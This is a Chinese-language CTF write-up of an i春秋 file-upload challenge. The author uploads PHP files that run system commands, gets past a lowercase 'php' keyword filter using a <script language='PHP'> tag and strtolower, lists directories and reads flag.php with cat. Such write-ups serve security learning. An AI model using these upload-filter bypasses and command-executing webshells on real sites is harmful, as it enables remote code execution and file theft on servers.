



# 题目
## 题目内容
想怎么传就怎么传，就是这么任性。  
## tips
flag在flag.php中
## 思路
点进题目链接，是一个文件上传界面：  
  
随意编了一个 php 文件，上传上去：  
```php
<?php
system("ls");
?>
```
发现还上传成功了，并且还在网页源码的地方给了文件路径：  
  
访问一下这个文件：  
xxx.ichunqiu.com/u/0.php  
  
有回显，但是把 php 字符过滤了，试试大写的 php 能不能绕过：  
```php
<?php
echo "phpPHP";
system("ls");
?>
```
芜湖，起飞，大写的可以：  
  
那么我们尝试使用脚本的写法绕过，然后继续上传：  
```php
<script language="PHP">
system("ls");
</script>
```
再去访问这个文件，成功回显：  
  
接下来的任务就是找 flag 了，/u/ 的文件夹下没有 flag.php，也没有文件夹，那只能去看父级目录了：   
```php
<script language="PHP">
system("ls ../");
</script>
```
成功找到 flag.php，直接访问这个文件，没有特殊信息：  
  
那么只能尝试回显 flag.php 的内容了：
```php
<script language="PHP">
//这里用到strtolower函数，用于把PHP转换为php
system("cat ../flag.".strtolower("PHP"));
</script>
```
查看文件，然后查看网页源码，获得 flag：
  
